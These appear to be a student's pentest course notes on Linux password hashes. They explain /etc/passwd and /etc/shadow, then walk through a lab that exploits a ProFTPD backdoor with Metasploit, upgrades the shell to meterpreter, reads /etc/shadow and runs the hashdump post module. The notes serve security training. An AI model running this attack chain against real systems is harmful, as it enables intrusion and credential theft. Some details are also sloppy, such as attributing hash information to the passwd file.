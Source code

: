 # Dumping Linux Passwort Hashes


## Linux Password Hashes
- Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
- All of the information for all accounts on Linux is stored in the passwd file located in /etc/passwd
- We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the systen.
- All the encrypted passwords for the users are stored in the shadow file. It can be found in the following directory: /etc/shadow
- The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.

  - The passwd file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($)

![image](https://github.com/user-attachments/assets/e49a471f-b98a-4efb-82d5-f2b74c1a8789)

## Demo: Linux Password Hashes

We first exploit the target:

`ifconfig, eth1`

`nmap -sV [targetIP]`

We check if this version of proftpd is vulnerable to a exploit:

`searchsploit PROFTPD`

We got a Backdoor Command Execution module

`service postgresql start && msfconsole`

`setg rhosts [targetIP]`

`search proftpd`

We want the proftpd_133c_backdoor:

use [module name]

`show options`

`exploit`

We get a command shell session:

`/bin/bash -i`

`id`

We put this session in the background: CTRL + Z

`yes`

`sessions`

We upgrade our session to a meterpreter session:

`sessions -u 1`

we get a error, but thats fine

`sessions`

`sysinfo`

`getuid`

We have successfully obtained a meterpreter session.

`cat etc/shadow/`

Another technique is the metasploit hashdump module.

CTRL + Z to put the session in the background

`search hashdump`

We copy post/linux/gather/hashdump

`use post/linux/gather/hashdump`

`set SESSION 2` (our meterpreter session)

`run`

This will get the user accs that have passwords and gives us the hashed passwords and saves them. 



